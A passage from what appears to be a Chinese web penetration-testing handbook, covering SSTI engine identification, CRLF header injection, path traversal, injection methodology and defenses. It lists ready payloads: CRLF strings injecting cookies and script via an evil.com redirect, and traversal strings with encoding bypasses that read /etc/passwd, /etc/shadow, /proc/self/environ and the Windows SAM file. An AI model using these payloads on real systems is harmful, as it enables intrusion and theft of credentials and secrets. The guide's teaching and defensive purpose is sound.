├── 返回 49 → 存在 SSTI
│   ├── {{7*'7'}} 返回 49 → Twig
│   ├── {{7*'7'}} 返回 7777777 → Jinja2
│   ├── ${7*7} 返回 49 → FreeMarker 或 Mako
│   └── #{7*7} 返回 49 → Ruby ERB 或 Slim
├── 返回 {{7*7}} 原样 → 无模板注入或已转义
└── 返回错误信息 → 需要分析错误判断引擎类型
```

---

### 14.15.7 HTTP Header 注入

HTTP Header 注入（又称 CRLF 注入）允许攻击者在 HTTP 响应头中注入额外的 Header 或换行符，可实现响应拆分、缓存投毒、XSS 等攻击。

#### 14.15.7.1 测试方法

```text
# 注入换行符（%0d%0a）测试
http://target.com/redirect?url=http://evil.com%0d%0aSet-Cookie:session=attacker

# 响应拆分
http://target.com/redirect?url=http://evil.com%0d%0a%0d%0a<script>alert('XSS')</script>

# Host Header 注入
Host: target.com%0d%0aX-Injected: true

# Cookie 注入
Cookie: session=abc%0d%0aSet-Cookie:admin=true
```

#### 14.15.7.2 防御方案

```python
# 严格过滤用户输入中的换行符
import re

def sanitize_header_value(value):
    # 移除所有 CR、LF 和 null 字符
    return re.sub(r'[\r\n\x00]', '', value)
```

---

### 14.15.8 路径遍历

路径遍历（Directory Traversal）允许攻击者通过操纵文件路径参数访问受限目录之外的文件。

#### 14.15.8.1 测试 Payload

```text
# 基础路径遍历
../../../../etc/passwd
..\..\..\..\windows\system32\config\sam

# 绕过过滤
....//....//....//etc/passwd       → 双写绕过（过滤 ../ 后还原）
..%252f..%252f..%252fetc/passwd   → 双重 URL 编码
..%c0%af..%c0%afetc/passwd        → 超长 UTF-8 编码（过时但偶尔有效）
..%ef%bc%8f..%ef%bc%8fetc/passwd  → 全角斜杠
/var/www/./html/../../etc/passwd  → 使用当前目录符号

# 使用绝对路径
file:///etc/passwd                → 协议直接读取
/etc/passwd                       → 如果应用不检查相对路径

# 利用 null 字节截断（旧版 PHP < 5.3.4）
../../../../etc/passwd%00         → 截断文件扩展名

# 常见敏感文件清单
/etc/passwd                       → Linux 用户信息
/etc/shadow                       → Linux 密码哈希（需 root 权限）
/etc/hosts                        → 主机名解析
/proc/self/environ                → 当前进程环境变量（可能包含密钥）
/proc/self/cmdline                → 当前进程启动命令
/var/log/apache2/access.log       → Apache 访问日志（可用于日志投毒）
C:\windows\system32\config\sam    → Windows SAM 文件
C:\windows\win.ini                → Windows 配置文件
```

---

### 14.15.9 注入漏洞测试通用方法论

#### 14.15.9.1 系统化测试流程



#### 14.15.9.2 输入点清单

不要遗漏任何用户可控的输入位置：

```text
# URL 相关
URL 路径（Path）
查询参数（Query String）
Fragment（# 后面的部分，对 DOM XSS）

# HTTP 请求
POST 表单数据
JSON/XML 请求体
Cookie 值
Referer / User-Agent / X-Forwarded-For / X-Real-IP
Authorization / Custom Headers

# 文件相关
文件名
文件内容（XML、CSV、JSON 等解析）
文件上传的 MIME Type

# 其他
WebSocket 消息
GraphQL 查询
gRPC 消息
API 参数（REST / SOAP）
```

#### 14.15.9.3 测试效率提升技巧

1. **Burp Suite Intruder**：对标记位置使用 Payload 集进行批量测试
2. **Turbo Intruder**：需要高速发包时使用（如时间盲注大量字符爆破）
3. **Logger++**：记录所有请求/响应，便于回溯分析
4. **Autorize**：自动化权限测试（结合注入进行越权测试）
5. **Param Miner**：自动发现隐藏参数（Hidden parameters）
6. **Arjun**：另一款优秀的隐藏参数发现工具

```bash
# Arjun 使用示例
arjun -u http://target.com/page
arjun -u http://target.com/page -m JSON  # 测试 JSON 参数
arjun -u http://target.com/page --headers "Authorization: Bearer xxx"
```

---

### 14.15.10 防御方案汇总

注入漏洞的根本防御原则是**永远不要信任用户输入**。以下是各类注入的防御要点：

| 注入类型 | 核心防御措施 |
|----------|-------------|
| **SQL 注入** | 使用参数化查询（PreparedStatement），ORM 框架，输入白名单验证 |
| **XSS** | 输出编码（HTML/JS/URL/ CSS），CSP 策略，HttpOnly Cookie |
| **命令注入** | 禁止将用户输入传入 Shell 命令，使用 API 替代 Shell，白名单验证 |
| **LDAP 注入** | 转义 LDAP 特殊字符，使用参数化 LDAP API |
| **XXE** | 禁用外部实体解析（`FEATURE_SECURE_PROCESSING`），使用 JSON 替代 XML |
| **SSTI** | 使用无逻辑模板引擎（如 SandboxedEnvironment），白名单验证 |
| **Header 注入** | 过滤 CR/LF 字符，使用框架内置的 Header 设置函数 |
| **路径遍历** | 使用 chroot/容器隔离，白名单验证文件路径，禁止 `..` |

```python
# Python 参数化查询示例
# ❌ 错误写法（SQL 注入）
cursor.execute(f"SELECT * FROM users WHERE username = '{username}'")

# ✅ 正确写法（参数化查询）
cursor.execute("SELECT * FROM users WHERE username = %s", (username,))
```

```java
// Java PreparedStatement 示例
// ❌ 错误写法
String query = "SELECT * FROM users WHERE id = " + userId;
Statement stmt = connection.createStatement();
ResultSet rs = stmt.executeQuery(query);

// ✅ 正确写法
String query = "SELECT * FROM users WHERE id = ?";
PreparedStatement pstmt = connection.prepareStatement(query);
pstmt.setInt(1, userId);
ResultSet rs = pstmt.executeQuery();
```

---

### 14.15.11 常见误区与最佳实践

**误区 1：认为用了 WAF 就安全**
WAF 可以被绕过。WAF 的规则基于模式匹配，精心构造的 Payload 可以绕过大部分 WAF。WAF 是纵深防御的一层，不能替代安全编码。

**误区 2：只关注 GET 参数**
POST 表单、Cookie、HTTP Header 都是注入点。很多测试者只关注 URL 参数，忽略了其他输入位置。

**误区 3：误以为编码就是安全**
HTML 实体编码、URL 编码只是在特定上下文下的安全措施。如果在 JavaScript 字符串中输出经过 HTML 编码的内容，仍然存在 XSS 风险。

**误区 4：盲目依赖自动化工具**
自动化工具会漏报（尤其是 DOM XSS、二次注入、需要业务逻辑理解的场景），也会误报（反射的 Payload 未被执行但被标记为漏洞）。手动验证不可替代。

**误区 5：忽略修复建议的完整性**
只告诉开发者"存在 SQL 注入"是不够的。修复建议必须具体到代码层面：使用什么函数、什么框架、什么配置，并给出安全代码示例。

**最佳实践：**
- 测试前在授权范围内操作，避免对生产环境造成影响
- 使用 Burp Suite 的 Comparer 功能对比正常响应和异常响应，提高盲注效率
- 养成记录测试过程的习惯，便于编写报告和复现漏洞
- 对于时间盲注，设置合理的延迟值（3-5 秒），避免影响业务可用性
- 测试完成后清理上传的 Webshell 和测试数据
